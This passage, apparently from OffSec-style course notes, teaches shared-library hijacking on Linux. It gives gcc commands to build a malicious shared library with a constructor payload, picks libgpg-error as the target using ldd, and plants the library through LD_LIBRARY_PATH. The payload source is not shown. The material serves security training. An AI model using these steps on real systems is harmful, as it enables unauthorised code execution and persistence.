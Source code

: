 We are creating a constructor function so that our malicious code will run when our library is loaded, regardless of what the original program is trying to do with it. In other words, the original program will try to load the library, which will then run our constructor function, triggering our malicious payload.

Compile with `gcc`:
```bash
offsec@linuxvictim:~/ldlib$ gcc -Wall -fPIC -c -o hax.o hax.c
```

In the first command, we use the `-Wall` parameter, which gives more verbose warnings when compiling. The `-fPIC` option tells the compiler to use position independent code, which is suitable for shared libraries since they are loaded in unpredictable memory locations. The `-c` flag tells `gcc` to compile but not link the code and `-o` tells the compiler to produce an output file with the name immediately following the parameter.

In the second command, we’re again using `gcc` to compile. However, this time we use the `-shared` parameter to tell `gcc` we’re creating a shared library from our object file. We then specify an output file again, this time with the name libhax.so, and then we specify our input object file.
```bash
offsec@linuxvictim:~/ldlib$ gcc -shared -o libhax.so hax.o
```

Libraries follow the `soname` naming convention which is indicated by the `.so` extension followed by a number indicating a version, like `lib.so.1`.

We want to find something that won’t break the system if all programs are prevented from using it.

We can get a list of libraries binaries load when executing using `ldd`:
```bash
offsec@linuxvictim:~$ ldd /usr/bin/top
linux-vdso.so.1 (0x00007ffd135c5000)
libprocps.so.6 => /lib/x86_64-linux-gnu/libprocps.so.6 (0x00007ff5ab935000)
libtinfo.so.5 => /lib/x86_64-linux-gnu/libtinfo.so.5 (0x00007ff5ab70b000)
libdl.so.2 => /lib/x86_64-linux-gnu/libdl.so.2 (0x00007ff5ab507000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007ff5ab116000)
libsystemd.so.0 => /lib/x86_64-linux-gnu/libsystemd.so.0 (0x00007ff5aae92000)
/lib64/ld-linux-x86-64.so.2 (0x00007ff5abd9b000)
librt.so.1 => /lib/x86_64-linux-gnu/librt.so.1 (0x00007ff5aac8a000)
liblzma.so.5 => /lib/x86_64-linux-gnu/liblzma.so.5 (0x00007ff5aaa64000)
liblz4.so.1 => /usr/lib/x86_64-linux-gnu/liblz4.so.1 (0x00007ff5aa848000)
libgcrypt.so.20 => /lib/x86_64-linux-gnu/libgcrypt.so.20 (0x00007ff5aa52c000)
libpthread.so.0 => /lib/x86_64-linux-gnu/libpthread.so.0 (0x00007ff5aa30d000)
libgpg-error.so.0 => /lib/x86_64-linux-gnu/libgpg-error.so.0 (0x00007ff5aa0f8000)
```

The last library seems to be for handling GPG errors, we can use it as it is not a core library and will not disrupt system operations.

We will no setup the environment variable and rename our malicious library:
```bash
offsec@linuxvictim:~/ldlib$ export LD_LIBRARY_PATH=/home/offsec/ldlib/

offsec@linuxvictim:~/ldlib$ cp libhax.so libgpg-error.so.0
```

If we run `top`, we now see the following:
```bash
offsec@linuxvictim:~/ldlib$ top
top: /home/offsec/ldlib/libgpg-error.so.0: no version information available (required by /lib/x86_64-linux-gnu/libgcrypt.so.20)
top: relocation error: /lib/x86_64-linux gnu/libgcrypt.so.20: symbol gpgrt_lock_lock version GPG_ERROR_1.0 not defined in file libgpg-error.so.0 with link time reference
```
